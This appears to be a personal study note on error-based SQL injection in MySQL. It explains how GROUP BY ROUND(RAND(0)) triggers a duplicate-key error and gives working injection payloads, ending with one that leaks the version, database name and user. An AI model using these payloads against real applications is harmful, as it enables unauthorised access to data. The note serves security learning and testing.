 ```yaml
---
tags:
- security
- sqli
- web
title: ERROR based (In-band) Injection
---
```


1. <u>Bug in MySQL</u>  
   Bug Present in old versions of MySQL  
   [MySQL Bugs: 82544](https://bugs.mysql.com/bug.php?id=82544)  

By using seed we are going to generate the same values every time. If the table has at least 3 entries then by rounding the values 2 of they are going to be the same and we can cause the bug

````sql
-- Seed will create the same values very time
SELECT name, RAND(0) 
FROM users; 

-- Column with rounded values
SELECT name, RAND(0), ROUND(RAND(0)) 
FROM users; 

SELECT name 
FROM users 
GROUP BY ROUND(RAND(0));
````

2. <u>Triggering the Bug</u>

````sql
SELECT name 
FROM users 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);

SELECT name, COUNT(*) 
FROM users 
GROUP BY ROUND(RAND(0));
````

The count() approach is mostly useless as the statement till the where clause is going to be fixed by the application we can only control the part that comes after the where clause

````sql
SELECT name 
FROM users 
WHERE username="sagar" OR 1=1 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);
````

3. <u>Getting Information using Bug</u>

````sql
OR 1=1 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);#

OR 1=1 
GROUP BY CONCAT(version(), " ", database(), " ", user(), " ", ROUND(RAND())) HAVING MIN(0);#
````